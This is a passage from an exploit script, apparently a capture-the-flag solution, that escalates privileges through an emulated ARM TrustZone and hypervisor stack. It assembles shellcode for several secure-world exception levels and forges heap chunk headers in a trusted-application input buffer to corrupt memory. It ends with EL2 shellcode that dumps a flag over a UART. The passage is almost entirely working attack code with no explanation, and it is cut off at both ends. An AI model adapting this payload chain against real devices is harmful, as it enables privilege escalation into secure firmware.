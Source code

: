 ```python
    // ctx
    ldr r0, =0x8005008
    ldr r1, =0xe00264f  
    str r1, [r0] // tlb is already cached by the softmmu
    mcr p15, 0, r0, c8, c7, 0 
    dsb sy
    isb
    mov r0, #0x1328
    ldr r1, =0x800002cc
    str r1, [r0]
    mov r0, #0x1330
    mov r1, #0
    str r1, [r0]
''',arch='arm') # dummy code is added. 
# SEL1_shellcode += b'\xfe\xff\xff\xea' # loop for debugging
SEL1_shellcode += asm('''\
    mov r0, 0x8300
    lsl r0, r0, #16
    orr r0, r0, #0x7
''',arch='arm') # separation needed.
SEL1_shellcode += bytes.fromhex('70 00 60 e1')

TCI_Data_addr = 0x4010225c
SEL0_shellcode = b"\x00\xf0\x08\xe8" # thumb switch
SEL0_shellcode += b'A'*0x10
SEL0_shellcode += asm(f'''\
    mov r10, #{((WORLD_SHARED_MEM_VA)>>16)&0xffff}
    lsl r10, r10, #16 
    orr r10, r10, #{(WORLD_SHARED_MEM_VA)&0xffff}
    add r10, r10, #0x10c 
    mov r0, #0xb
    mov r1, r10
    svc 0x1
    svc 0x0 // return to normal world
''',arch='arm')
SEL0_shellcode += b'A' * (0x100 - len(SEL0_shellcode))
SEL0_shellcode += SEL1_shellcode
assert len(SEL0_shellcode) <= 0x200
SEL0_shellcode += b'A' * (0x200 - len(SEL0_shellcode))
SEL0_shellcode += SEL3_shellcode

SEL0_shellcode_src = 0x40035500
UART= 0x0000000009000000

TCI_Data = b''
TCI_Data += p32(0xdeadbeef) * 8 + p32(0xdeadbeef) * 2 
TCI_Data += p32(0) + p32(0x31) + p32(0x00000000e4990b0-8) + p32(0x0) + p32(0) + p32(0) + b'A' * 0x18# chunk 1
TCI_Data += p32(0) + p32(0x31) + p32(0x1670+8-0x10) + p32(0x0100060-0x8) + b'B' * 0x14 # chunk 2

EL2_shellcode = asm(f'''\
    movz x11, #{((UART)>>48)&0xffff}, lsl #48
    movk x11, #{((UART)>>32)&0xffff}, lsl #32
    movk x11, #{((UART)>>16)&0xffff}, lsl #16
    movk x11, #{(UART)&0xffff}, lsl #0
    mov x0, sp
''') + bytes(read_flag) + asm(f'''\
    mov x9, #0
    loop:
        add x0, sp, x9 
        ldrb w0, [x0]
        strb w0, [x11]
        add x9, x9, #1
```